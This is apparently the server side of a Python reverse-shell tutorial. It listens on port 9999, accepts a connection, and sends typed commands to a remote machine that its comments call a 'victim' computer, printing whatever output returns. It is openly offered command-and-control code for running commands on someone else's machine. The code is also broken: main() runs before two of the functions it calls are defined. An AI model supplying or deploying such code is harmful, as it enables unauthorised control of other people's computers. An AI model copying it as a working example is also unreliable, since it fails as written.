

# Server.py
import socket
import sys

#Create a Socket to connect two computers
def create_socket():
    try:
        global host
        global port
        global s
        host=""
        port=9999 #any unknown popular no can be used as port no
        s=socket.socket()
    except socket.error as msg:
        print("Socket creation error "+str(msg))
#Sending Commands to client/victim/friend computer
def send_commands(conn):
    # to send more than one command use infinite while loop
    while True:
        cmd = input()

        #to stop the infinite loop, we need to quit
        if cmd == "quit":
            conn.close()
            s.close()
            sys.exit()
        #to convert any command entered in string format to byte format
        if len(str.encode(cmd)) > 0:
            conn.send(str.encode(cmd)) # to send commands to another computer
            client_response = str(conn.recv(1024), "utf-8") #whenever data is received from client back, it has to be converted from byte to string.
            print(client_response,end="") #here end parameter gets the cursor to next line after giving output.

def main():
    create_socket()
    bind_socket()
    socket_accept()

main() #function calling
def bind_socket():
    try:
        global host
        global port
        global s

        print("Binding the Port :"+str(port))
        s.bind((host,port))
        s.listen(5) #server will continuously listen from varioous computers and 5 is the no of bad connections after which it throws error.
    except socket.error as msg:
        print("Socket Binding error."+str(msg) + "\n" + "Retrying...")
        bind_socket() #recursive function calling

#once connection initiated, accept the connection
def socket_accept():
    conn,address= s.accept()
    print("Connection has been established !! "+"IP "+address[0]+ ": Port"+ str(address[1]))
    send_commands(conn) #to send any command like for making a folder on to your friend or victim computer
    conn.close() #close the connection